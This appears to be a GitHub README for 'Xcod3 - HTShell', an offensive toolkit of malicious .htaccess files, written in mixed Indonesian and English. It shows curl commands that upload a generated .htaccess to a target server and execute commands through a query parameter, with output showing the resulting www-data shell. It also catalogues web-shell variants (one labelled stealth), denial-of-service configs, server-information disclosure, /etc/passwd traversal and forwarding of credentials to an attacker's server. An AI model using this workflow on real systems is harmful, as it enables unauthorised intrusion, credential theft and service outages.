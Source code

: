 <p align="center"><a href="https://www.itsecurity.id/"><img height="200" title="Xcod3bughunt3r" src="face.png"/></a></p>

<center><h1>Xcod3 - HTShell</h1></center><br>

### ``Kerang web yang mengandung mandiri dan serangan lainnya melalui file .htaccess. Serangan disebutkan dalam mode berikut, module.attack.htaccess dan dikelompokkan oleh jenis serangan direktori. Pilih yang Anda butuhkan dan salin ke file baru bernama .htaccess, periksa file untuk melihat apakah itu perlu diedit sebelum Anda mengunggahnya. Web Shells mengeksekusi perintah dari parameter kueri C, kecuali file tersebut menyatakan sebaliknya.``
### `To prepare run` [./xcod3-htshell.sh](xcod3-htshell.sh) `file which will generate the .htaccess file to be uploaded. Example:`
```
~# ./xcod3-htshell.sh xcod3.htaccess
 ┬ ┬┌┬┐┌─┐┬ ┬┌─┐┬  ┬  ┌─┐
 ├─┤ │ └─┐├─┤├┤ │  │  └─┐
 ┴ ┴ ┴ └─┘┴ ┴└─┘┴─┘┴─┘└─┘
www.itsecurity.id - www.lpkprisma.ti
.htaccess file is ready

~# curl -F 'file=@.htaccess' -k https://target/upload.php

~# curl -k https://target/uploads/.htaccess?c=id
...
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### `My HTShell & Simple Generate HTShell With HTML`
- Xcod3bughunt3r/xcod3.htaccess ``- Has Been Tested``
- Xcod3bughunt3r/htaccess-generator.html ``- Has Been Tested - Running  & Generate Personal Your HTShell.``

````
python -m http.server 8080
Open Your Browser & ....
http://YourIP:8080/
````

### `Interactive Command Execution - Has Been Tested`
- htaccess-shell/prisma.htaccess
- htaccess-shell/kali.htaccess
- htaccess-shell/include.htaccess
- htaccess-shell/lua.htaccess
- htaccess-shell/mono.htaccess
- htaccess-shell/rivet.htaccess
- htaccess-shell/cgi.bash.htaccess
- htaccess-shell/cgi.bind.htaccess
- htaccess-shell/cgi.windows.htaccess
- htaccess-shell/ruby.htaccess
- htaccess-shell/python.htaccess
- htaccess-shell/php.htaccess
- htaccess-shell/php.666.htaccess
- htaccess-shell/php.stealth.htaccess
- htaccess-shell/suphp.htaccess
- htaccess-shell/perl.htaccess
- htaccess-shell/perl.ipp.htaccess
- htaccess-shell/perl.mason.htaccess
- htaccess-shell/perl.embperl.htaccess
- htaccess-shell/stsh.pl

### `Denial Of Service Attacks`
- ``dos/apache.htaccess - Makes all requests return a 500 internal server error.``
- ``dos/write.htaccess - Regular expression dos condition in mod_rewrite consumes a child process.``

### `Information Disclosure Attacks`
- ``info/modcheck/ - Sertakan header respons tambahan untuk menunjukkan modul apache mana yang aktif.``
- ``info/modcheck/core.lst``
- ``info/modcheck/core.htaccess``
- ``info/modcheck/3rdparty.lst``
- ``info/modcheck/3rdparty.htaccess``
- ``info/modcheck/generate.sh``
- ``info/caucho.htaccess - Server status binding for the caucho Resin java server module.``
- ``info/clamav.htaccess - Clamav status page binding.``
- ``info/info.htaccess - Server info binding for Apache.``
- ``info/ldap.htaccess - Server status binding for the mod_ldap server module.``
- ``info/perl.htaccess - Display the mod_perl status page.``
- ``info/php.htaccess - Make all php pages show source instead of executing.``
- ``info/status.htacces - Server status binding for Apache.``

### `Various attacks`
- ``various/remote.phish.htaccess - Forward basic auth credentials to server of your choice.``
- ``various/admin.htaccess - Badge Admin Page Binding.``
- ``various/sendmail.rce.htaccess - Executes commands configured in the .htaccess file by specifying path and arguments to "sendmail" binary.``

### `Directory Traversal Attacks`
- ``traversal/hitlog.htaccess - Directory traversal attack via hitlog module tries to read /etc/passwd``
- ``traversal/layout.htaccess - Directory traversal attack reads /etc/passwd``

#### ``PLEASE CHECK`` *[LICENSE](LICENSE)*
#### ``DEVELOPERS:``*[@Xcod3bughunt3r](https://github.com/Xcod3bughunt3r/Xcod3bughunt3r)* - ``ALIF FUSOBAR - master@itsecurity.id - www.itsecurity.id``


